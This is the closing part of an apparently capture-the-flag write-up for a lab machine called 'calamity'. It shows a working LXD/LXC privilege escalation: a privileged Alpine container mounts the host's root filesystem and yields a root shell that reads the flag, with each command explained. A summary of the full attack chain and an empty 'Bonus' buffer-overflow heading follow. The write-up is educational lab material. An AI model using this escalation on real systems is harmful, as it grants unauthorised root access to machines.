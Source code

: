 ```bash
xalvas@calamity:~$ mkdir lxd
xalvas@calamity:~$ mv alpine-v3.12-i686-20200624_1354.tar.gz lxd/
xalvas@calamity:~$ cd lxd/
xalvas@calamity:~/lxd$ lxc image import alpine-v3.12-i686-20200624_1354.tar.gz --alias alphine
Image imported with fingerprint: d2e92de8b9caaf82feba106e11872959c2a8b36338ceaa0b0695ba8123195f48
xalvas@calamity:~/lxd$ lxc image list
+---------+--------------+--------+-------------------------------+------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCH |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+------+--------+-------------------------------+
| alphine | d2e92de8b9ca | no     | alpine v3.12 (20200624_13:54) | i686 | 3.06MB | Jun 24, 2020 at 11:59am (UTC) |
+---------+--------------+--------+-------------------------------+------+--------+-------------------------------+
xalvas@calamity:~/lxd$ lxc init alphine privesc -c security.privileged=true
Creating privesc
xalvas@calamity:~/lxd$ lxc list
+---------+---------+------+------+------------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+---------+---------+------+------+------------+-----------+
| privesc | STOPPED |      |      | PERSISTENT | 0         |
+---------+---------+------+------+------------+-----------+
xalvas@calamity:~/lxd$ lxc config device add privesc host-root disk source=/ path=/mnt/root
Device host-root added to privesc
xalvas@calamity:~/lxd$ lxc start privesc
xalvas@calamity:~/lxd$ lxc exec privesc /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cat /mnt/root/root/root.txt
9be653e0************************
```

`lxc image import` will unpack the `.tar.gz` file and make it available. `lxc init alphine privesc -c security.privileged=true` will initialize the image and will make sure that any activity will run with the full host privileges. `lxc config device add privesc host-root disk source=/ path=/mnt/root` will mount `/` on the host to `/mnt/root` on the container. This makes sure that `/mnt/root/root/root.txt` in the container is `/root/root.txt` on the host.

## TL:DR

- Admin page with password in HTML comment
- Ability to upload PHP code
- Compare two audio files to find SSH password
- User is part of the LXC group

## Bonus

### Intended solution via Buffer overflow
